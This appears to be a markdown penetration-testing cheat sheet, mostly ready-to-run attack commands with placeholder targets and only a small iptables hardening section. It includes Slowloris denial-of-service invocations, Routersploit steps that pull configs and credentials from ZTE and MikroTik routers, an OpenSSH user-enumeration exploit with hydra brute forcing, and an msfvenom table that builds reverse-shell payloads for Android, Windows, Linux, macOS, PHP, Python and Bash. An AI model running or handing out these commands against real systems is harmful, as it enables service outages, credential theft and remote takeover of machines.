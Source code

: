 
## OSI Layer

| No | Layer | Example |
| --- | --- | --- |
| 7 | Application | SMTP |
| 6 | Presentation | HTTPS, SSL, TLS |
| 5 | Session | NetBIOS, PPTP |
| 4 | Transport | TCP, UDP |
| 3 | Network | Router, IP, ICMP |
| 2 | Data Link | Switch |
| 1 | Physical | Hub, NIC, Cable |

## Denial Of Service
Slowloris (GET Exploit)
Perl Example
```
perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
``` 
Slowloris Python (GET Exploit)
Source : https://github.com/gkbrk/slowloris
-----
Install
```
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```
Running
```
python3 slowloris.py [IP_TARGET] --port 80 --sleeptime 1000
```
## Anonymousdoser (POST Exploit)
Source : 
```
Website [URL/IP] : [IP_TARGET]
Time [Seconds] : 9999
```
## Harderning
IP Tables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```
Log Apache & Nginx
```
/var/log/apache2/access.log
/var/log/nginx/access.log
```
Live Running Log
```
tail -f ./access.log
```

## Routersploit
Exploit For Router HGU, Mikrotik, IPCAM, etc.
Source : https://github.com/threat9/routersploit
---
Case Router ZTE_F609 and ZTE_F660
```
show exploits
search zte
use exploits/routers/zte/f609_config_disclosure
use exploits/routers/zte/f660_config_disclosure
show options
set target [IP_TARGET]
exploit
```
Case Router MikroTik 6.29-6.42 (Port 8291)
```
search mikrotik 6.29 - 6.42	=> 8291
use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
show options
set target [IP_TARGET]
exploit
```

## Scanning Port and Service
NMAP
```
nmap -sn [RANGE_IP]
nmap -A [IP_TARGET]
```
Netdiscovery
```
netdiscovery
```
Nbtscan
```
nbtscan [NETWORK_IP]
```

## Brute Force CVE-2018-15473 (OpenSSH 2.3 < 7.7)
Source : https://www.exploit-db.com/exploits/45233
Running Exploit 
```
python3 45233.py --userList user.txt [IP_TARGET] --outputFile hasil.txt
hydra -L user.txt -P pass.txt [IP_TARGET] ssh
```

## Payload Msvenom
Payload Reverse Shell

| Target | Example |
| --- | --- |
| Android | msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_ATTACKER] LPORT=4444 R > payload.apk |
| Windows Staged | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Windows Stageless | msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Linux | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf >reverse.elf |
| OSX | msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho |
| Python | msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py |
| PHP | msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4444 -f raw > shell.php; cat shell.php \| pbcopy && echo '<?php ' \| tr -d '\n' > shell.php && pbpaste >> shell.php |
| Bash | msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh |

## Meterpreter

## MITM (Man In The Middle)
## Ethercap
## SSLStrip


